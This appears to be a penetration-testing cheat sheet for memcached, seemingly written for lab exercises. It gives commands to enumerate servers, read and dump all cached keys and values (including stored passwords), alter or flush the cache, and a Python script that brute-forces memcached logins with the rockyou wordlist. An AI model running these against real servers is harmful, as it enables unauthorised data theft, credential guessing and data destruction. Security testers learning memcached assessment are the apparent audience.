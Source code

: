 # Connecting
```
telnet localhost 11211
```

# Information gathering
```
nmap -p 11211 --script memcached-info
```
```
memcstat --servers=127.0.0.1
```

# Read value
```
memccat --servers=192.64.38.3 --username=user --password=pass flag
```
```
$ nc localhost 112111

get password
VALUE password 0 6
3dw4rd
END
```

# Key information and dump values
```
> version

> stats items
STAT items:3:number 1
STAT items:3:age 498
STAT items:22:number 1
STAT items:22:age 498
END

> stats cachedump <stab-id> <limit>
> stats cachedump 3 100
ITEM views.decorators.cache.cache_header..cc7d9 [6 b; 1256056128 s]
END
```
# Increment decrement
```
> incr <id> 1
> decr <id> 1
```

# Set new entry
```
> set phone 0 60 9
> 123456789
```

# Modify value
```
> replace <key> 0 0 2
> <new-value>
```
```
> prepend address 0 0 6
> house
```
```
append address 0 0 6
,73301
```

# Delete
```
> delete old_address
```
```
> flush_all 30
```
invalidate all keys after 30 s

# Dump all keys
```
memcdump --verbose --debug --servers=127.0.0.1 | tee keys.lst
```

# Dump all key-values
```
memcached-tool localhost:11211 dump | less
```
```
while read -r key; do
    [ -f "$key" ] || echo "get $key" | nc localhost 11211 > "$key.dump";
done < <(memcdump --server localhost)
```

```
memcdump --servers=localhost | xargs -L1 -I% sh -c 'echo "get %" | nc localhost 11211'
```

```
function memcmd() {
  exec {memcache}<>/dev/tcp/localhost/11211
  printf "%s\n%s\n" "$*" quit >&${memcache}
  cat <&${memcache}
}
```

## 1.4.31 and above
```
memcmd lru_crawler metadump all
```

## 1.4.30 and below
```
memcmd stats items
memcmd stats cachedump 1 0
```

```
for id in $(memcmd stats items | grep -o ":[0-9]\+:" | tr -d : | sort -nu); do
    memcmd stats cachedump $id 0
done
```

# Libraries

- Python: https://github.com/abstatic/python-memcached-stats

# Bruteforce

```python
#!/usr/bin/python3
import subprocess

dictionary=open("/usr/share/wordlists/rockyou.txt")
for pwd in dictionary:
    out=subprocess.getoutput('memcstat --servers=192.64.38.3 --username=student --password='+pwd)
    if len(out)>0:
        print(out)
        print("PASSWORD: "+pwd)
        break
```
